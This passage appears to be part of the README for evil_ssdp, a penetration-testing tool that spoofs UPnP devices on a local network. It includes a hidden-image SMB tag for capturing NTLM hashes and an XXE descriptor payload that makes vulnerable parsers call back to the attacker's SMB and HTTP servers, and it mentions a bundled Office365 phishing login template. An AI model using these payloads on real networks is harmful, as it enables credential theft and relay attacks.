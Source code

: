 A key line in this file contains the 'Presentation URL'. This is what will load in a user's browser if they decide to manually double-click on the UPNP device. evil_ssdp will host this file automatically (login.html from the chosen template folder), plugging in your source IP address into an IMG tag to access an SMB share that you can host with tools like [Impacket](https://www.coresecurity.com/corelabs-research/open-source-tools/impacket), [Responder](https://github.com/SpiderLabs/Responder), or [Metasploit](https://www.rapid7.com/db/modules/auxiliary/server/capture/smb).

The IMG tage looks like this:

```
<img src="file://///$local_ip/smb/hash.jpg" style="display: none;" /><br>
```

# Zero-Day Hunting
By default, this tool essentially forces devices on the network to parse an XML file. A well-known attack against applications that parse XML exists - [XML External Entity Processing (XXE)](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing).

This type of attack against UPNP devices in likely overlooked - simply because the attack method is complex and not readily apparent. However, evil_ssdp makes it very easy to test for vulnerable devices on your network. Simply run the tool and look for a big `[XXE VULN!!!]` in the output. NOTE: using the xxe template will likely not spawn visibile evil devices across the LAN, it is meant only for zero-interaction scenarios.

This is accomplished by providing a Device Descriptor XML file with the following content:

```
<?xml version="1.0"?>
<!DOCTYPE data [ 
<!ENTITY xxe SYSTEM "file://///$smb_server/smb/hash.jpg" >
<!ENTITY xxe-url SYSTEM "http://$local_ip:$local_port/ssdp/xxe.html" >
]>
<data>&xxe;&xxe-url;</data>
```

When a vulnerable XML parser reads this file, it will automatically mount the SMB share (allowing you to crack the hash or relay) as well as access an HTTP URL to notify you it was discovered. The notification will contain the HTTP headers and an IP address, which should give you some info on the vulnerable application. If you see this, please do contact the vendor to fix the issue. Also, I would love to hear about any zero days you find using the tool. And please do mention the tool in your CVE.


# Thanks
- Thanks to ZeWarren and his project [here](https://github.com/ZeWaren/python-upnp-ssdp-example). I used this extensively to understand how to get the basics for SSDP working.
- Thanks to the pentest geek and their phishing templates [here](https://github.com/pentestgeek/phishing-frenzy-templates). I used the Office365 login page from there.
- Thanks to [Dwight Hohnstein](https://github.com/djhohnstein) for his great work to implement cool features like basic authentication, realm support, and automatic redirection in evil_ssdp. He kindly wrote and provided code to make this work.
- Thanks to the following folks for submitting bugfixes:
    - Nadar, Ender Akbas, bubbleguuum

Also thanks to Microsoft for developing lots of fun insecure things to play with.

*This is a security research tool. Use only where granted explicit permission from the network owner.*
